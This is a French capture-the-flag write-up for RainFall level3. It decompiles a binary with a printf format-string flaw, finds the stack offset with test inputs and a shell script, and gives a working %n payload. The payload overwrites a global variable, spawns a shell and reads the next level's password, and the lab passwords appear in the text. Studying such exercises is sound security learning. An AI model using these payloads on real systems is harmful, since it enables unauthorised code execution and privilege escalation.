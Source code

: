 
# level3 :

pass : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

## Source :

```c
#include <stdio.h>
#include <stdint.h>

int	m = 0;  // 0x804988c

int		v() {  // 0x080484a4
	char str[520];  // ebp-0x208 | esp+0x10 / size : 0x208
  
	fgets(str, 512, stdin);  // 0x200
	printf(str);
	if (m == 64) {  // 0x40
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
  return m;
}

int		main(int ac, char **av, char **envp) {  // 0x0804851a
	return v();
}
```

## Recherche :

> On doit changer la valeur `m` à l'adresse `0x804988c` pour pouvoir réaliser notre exploit.

Ici `printf` est utilisé, et on va pouvoir l'utiliser pour faire ce que l'on veut.
`Printf` utlise des formats modifier `%` qui seront directement interprétés, n'étant pas protégé sur le binaire du level3.
On a donc :
	- `%s` pour afficher une chaine de caractère
	- `%x` pour afficher 4 octets en hexadécimal
	- `%n` pour l'écriture en mémoire

### Chercher l'offset manuellement

- [Printf vulns example](https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail)

```sh
level3@RainFall:~$ ./level3 <<< '%x %x %x %x %x'
200 b7fd1ac0 b7ff37d0 25207825 78252078

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242 43434343
```

```sh
level3@RainFall:~$ ./level3 <<< 'AAAA %4$x'
AAAA 41414141

level3@RainFall:~$ ./level3 <<< 'AAAA %4$s'
Segmentation fault (core dumped)
```

On peut lire sur notre propre string avec un offset de `4` !

### Trouver quand on aura notre offset avec un script

Pour déterminer l'offset où la chaine `str` sera mise en mémoire, on peut lancer cette commande :
`for((i=0; i<10; i++));do echo "Index $i" && python -c "print 'AAAA'+' %x'*$i" | ./level3; done`

qui nous donnera ce résultat :
```sh
Index 0
AAAA
Index 1
AAAA 200
Index 2
AAAA 200 b7fd1ac0
Index 3
AAAA 200 b7fd1ac0 b7ff37d0
Index 4
AAAA 200 b7fd1ac0 b7ff37d0 41414141
Index 5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
Index 6
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
Index 7
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
Index 8
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
Index 9
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
```

ou avec un script shell :
```sh
kali@kali:~/rainfall$ cat ./script.sh
#!/bin/bash
for ((i=0;  i < 200; i++))
do
	echo "Index $i" && (python -c "print 'AAAA%$i\$x'" ) | $1 | grep -A5 -B5 4141 > temp.pap

	if test -s "temp.pap"; then
		cat temp.pap
		break
	fi
done
rm temp.pap
```
Qu'on peut exécuter :
```sh
kali@kali:~/rainfall$ ./script.sh ./level3
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

On peut voir que l'on a un offset à `4`.

### Exploiter l'offset avec le format modifier `%n`

On peut donc simplifier par :
```sh
level3@RainFall:~$ echo "AAAA%4\$x" | ./level3
AAAA41414141
```
ou
```sh
level3@RainFall:~$ echo "ABCD%4\$x" | ./level3
ABCD44434241
```

Où l'on retrouve bien "ABCD" en little endian. Donc si l'on remplace "ABCD" par l'adresse de `m` on pourra changer sa valeur avec l'option `%n`.

```sh
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$x"' | ./level3 ; echo " ->$?"
�804988c ->0
```

Si on remplace `x` par `n`, au lieu d'afficher, on va donc écrire à l'adresse de mémoire donnée:
```sh
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$n"' | ./level3 ; echo " ->$?"
� ->4
```

> `%n` écrit en mémoire avec la taille de la chaine de caractère qui lui est donnée.

On voit que le code de retour n'est plus `0` mais `4`, car on a une chaîne d'une longeur de `4`.

On a donc tout ce qu'il nous faut pour écrire le script suivant :
- écrire à l'addresse `0x0804988c`
- l'offset pour y écrire est `4`
- la valeur que l'on veut mettre est `0x40`

`(python -c 'print "\x8c\x98\x04\x08"+"\x90"*(0x40-4)+"%4$n"'; cat) | ./level3`

## Exploit :

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"\x90"*(0x40-4)+"%4$n"'; cat) | ./level3 
�������������������������������������������������������������
Wait what?!
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
